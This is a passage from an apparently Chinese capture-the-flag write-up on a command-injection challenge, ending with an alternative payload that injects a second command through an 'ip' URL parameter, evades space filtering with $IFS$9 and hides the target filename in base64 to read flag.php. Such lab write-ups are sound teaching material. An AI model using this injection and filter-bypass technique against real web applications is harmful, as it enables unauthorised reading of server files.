 可以看到网页成功显示出base64加密的编码了，下面的php代码就是base64解密之后的源代码。

如果你能够**充分理解**原理，你可以**构造各种各样的字符串**来实现你的目的。

这里我再提供另一个payload，效果差不多 

payload: `` /?ip=;cat$IFS$9`echo$IFS$9ZmxhZy5waHA=$IFS$9|$IFS$9base64$IFS$9-d`|$IFS$9base64 ``

原理是先对 ` $IFS$9ZmxhZy5waHA=$IFS$9 ` base64解码，得到字符串**flag.php**,再 ` cat flag.php | base64 `,获取**flag.php**的内容并且base64加密,以便在网页里显示。(注意这里的**cat命令**是不能添加 **-n** 来去掉换行符的，它和**echo命令**不一样，别乱用)

## 结语

我的天呐！终于搞定了，东西是真多的。CTF一个题型可以展开多少东西来讲，涉及到多少知识点啊。这就是网安的魅力吗？
